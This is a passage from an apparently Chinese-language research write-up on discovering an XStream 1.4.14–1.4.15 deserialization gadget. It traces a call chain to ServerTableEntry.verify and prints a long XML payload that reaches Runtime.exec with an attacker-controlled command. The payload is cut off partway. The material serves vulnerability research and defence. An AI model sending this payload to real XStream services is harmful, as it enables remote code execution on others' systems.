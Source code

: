 ```xml
```

##### 直接RCE

java反序列化除了commons-collections之外，都是通过jndi注入来达到RCE的效果，究其原因，很大部分原因在于执行系统命令的两个类Runtime和ProcessBuilder都没实现序列化接口，无法进行反序列化。但XStream没有这个限制。1.4.15 ProcessBuilder已经被禁止，当前反射的又是无参函数，Runtime.exec无法利用。该如何找新的可利用的类。

寻找方法：在callgraph.dat中搜索Runtime.exec和ProcessBuilder.start

搜索到如下调用链

```
com/sun/corba/se/impl/activation/ServerTableEntry	verify	()I	java/lang/Runtime	exec	(Ljava/lang/String;)Ljava/lang/Process;	0	activationCmd	1
```

查看ServerTableEntry.verify，发现直接执行且命令可控

![image-20210119150017488](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119150017488.png)

payload如下：

```xml
<java.util.PriorityQueue serialization="custom">
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class="sun.awt.datatransfer.DataTransferer$IndexOrderComparator">
                <indexMap class="com.sun.xml.internal.ws.client.ResponseContext">
                    <packet>
                        <message class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart">
                            <dataSource class="com.sun.xml.internal.ws.message.JAXBAttachment">
                                <bridge class="com.sun.xml.internal.ws.db.glassfish.BridgeWrapper">
                                    <bridge class="com.sun.xml.internal.bind.v2.runtime.BridgeImpl">
                                        <bi class="com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl">
                                            <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                                            <uriProperties></uriProperties>
                                            <attributeProperties></attributeProperties>
                                            <inheritedAttWildcard class="com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection">
                                                <getter>
                                                    <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                                                    <name>verify</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName></tagName>
                                        <context>
                                            <marshallerPool class="com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1">
                                                <outer-class reference="../.."/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
```